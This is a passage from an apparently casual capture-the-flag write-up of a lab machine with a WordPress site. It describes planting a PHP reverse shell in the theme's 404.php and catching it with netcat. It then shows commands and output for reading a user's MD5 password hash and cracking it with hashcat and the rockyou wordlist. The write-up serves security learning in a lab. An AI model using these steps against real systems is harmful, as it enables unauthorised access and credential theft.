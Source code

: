 (I didnt try this one)

So In conclusion the creds are: 

`Elliot:[REDACTED]`

Login with those And get to the admin dashboard!
## Exploitation

Now getting access is classic stuff

In appearance editor just edit or add a page with a `php reverse shell` 

(404.php by example)

And get access on your netcat listener

```
$ cd /home/robot
$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied

```
yeah its a medium room...what did we expect?

`password.raw-md5` looks promising

```
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Its an easy-to crack hash so use john or hashcat...I prefer the second one for hashes

```
└──╼ $hashcat -m 0 'c3fcd3d76192e4007dfb496cca67e13b' /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:[REDACTED]
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Wed Jan 19 18:20:26 2022 (2 secs)
Time.Estimated...: Wed Jan 19 18:20:28 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    89644 H/s (0.52ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: treetree -> loserface1
```